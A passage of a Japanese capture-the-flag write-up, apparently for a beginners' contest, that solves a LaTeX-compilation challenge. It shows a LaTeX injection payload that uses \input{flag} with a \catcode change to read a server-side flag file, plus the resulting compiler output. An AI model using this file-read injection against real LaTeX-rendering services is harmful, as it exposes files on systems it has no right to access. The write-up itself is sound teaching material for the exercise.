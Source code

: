 ```py
        shutil.copy("tex_box/error.pdf", f"tex_box/{filename}/{filename}.pdf")
    print("\n", filename, "\n")
    return f"{filename}"



if __name__ == "__main__":
    tex_code = r"""\documentclass{article}
\begin{document}
\input{flag}
\end{document}"""
    tex2pdf(tex_code)
```

![textex-02](./textex-2.png)

正しくフラグが読み込めた。一応フラグを正しそうなものにしておく。

```txt
ctf4b{this_is_not_a_fl4g!}
```

コンパイルエラーが出た。

```txt
No file PCDYb9grIBztbIGvD8KiqyEXAGtLR9L2.aux.
(./flag
! Missing $ inserted.
<inserted text> 
                $
l.1 ctf4b{this_
               is_not_a_fl4g!}
```

どうやらflagを読み込んだ際に、`_`をLaTeXの特殊記号の`_`と認識したようだ。[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)に書かれている通り、`\catcode`を持ちいてエスケープする。

```py
...
if __name__ == "__main__":
    tex_code = r"""\documentclass{article}
\begin{document}
\catcode `\_=12
\input{flag}
\end{document}"""
    tex2pdf(tex_code)
```
